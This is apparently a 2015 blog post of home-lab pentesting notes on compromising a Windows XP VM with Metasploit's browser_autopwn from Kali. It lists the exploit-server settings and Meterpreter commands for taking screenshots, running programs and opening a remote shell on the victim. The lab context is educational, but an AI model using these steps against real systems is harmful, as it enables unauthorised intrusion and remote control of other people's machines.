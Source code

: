 ```yaml
---
layout: post
title: "(Auto)pwning XP with Kali"
date: '2015-03-14T00:42:00.002-07:00'
author: Steven Lavoie
tags:
- linux
- pentesting
- tutorial
- kali
---
```

Just some quick notes on exploiting a Windows XP VM at home.

<div class="separator" style="clear: both; text-align: center;"><a imageanchor="1" style="clear: left; float: left; margin-right: 1em;"><img border="0" height="182" src="/assets/posts/pwning_xp_with_kali/backtrack_logo.jpg"/></a></div>

I booted WinXP SP3 in a VMWare VM with VMWare Player and set the network to bridge (not auto-bridging). Next, select the network device: Virtual Box Host Adapter if you want your VirtualBox VMs to talk to the VMWare one or your regular NIC for your home/local network. Wait to get an IP. I had some issues and had to "disconnect" the NIC in VMWare  and reconnect. [Check here](http://www.sysprobs.com/setup-network-virtualbox-vmware-virtual-machines) if you need some help for the network setup.

In the msfconsole, this is how we'll set up the autopwn:

<pre style="background: #000000; color: #d1d1d1;">msfconsole<br />msf<span style="color: #e34adc;">&gt;</span> user <span style="color: #66347b;">auxiliary/server/browser_autopwn</span><br />msf<span style="color: #e34adc;">&gt;</span> <span style="color: #904050;">set</span> LHOST <span style="color: #e34adc;">&lt;</span><span style="color: #904050;">local</span> IP<span style="color: #e34adc;">&gt;</span><br />msf<span style="color: #e34adc;">&gt;</span> <span style="color: #904050;">set</span> URIPATH /<br />msf<span style="color: #e34adc;">&gt;</span> <span style="color: #904050;">set</span> SRVPORT <span style="color: #008c00;">80</span><br /></pre>

Then visit &lt;local IP&gt; (the IP of your Kali box) in IE and see what happens. I was prompted to install/run an ActiveX control. That required that I download/install Java. I got prompted for an update but denied it. Metasploit opened a Meterpreter session on the Kali box.

Type `sessions` to see what meterpreter sessions are available (there will be no `msf>` prompt).

`sessions -i #` drops to an interactive meterpreter shell with the machine

`screenshot` captures a screencap and saves it to your home directory (type `display [filename]` to see it)

`execute -f explorer` will open an explorer window on the XP machine

Type `help` to see all the options. Like `shell` to drop into a CMD shell on the box. To get out of it, just type `exit` and you'll return to the meterpreter shell.
